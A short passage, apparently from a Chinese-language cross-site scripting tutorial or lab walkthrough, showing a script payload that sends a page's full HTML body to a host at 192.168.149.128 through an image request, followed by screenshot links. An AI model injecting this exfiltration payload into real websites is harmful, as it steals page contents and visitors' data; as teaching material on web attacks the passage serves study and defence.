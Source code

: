 我们还可以通过使用以下有效负载来获取页面的整个页面源:

```
<script>new Image().src="http://192.168.149.128/bogus.php?output="+document.body.innerHTML</script>
```

![](img/6e7666c28b440bf7e5877c56e20e16d1.png)

![](img/2c040da60ba670bd92993f873a081ea4.png)
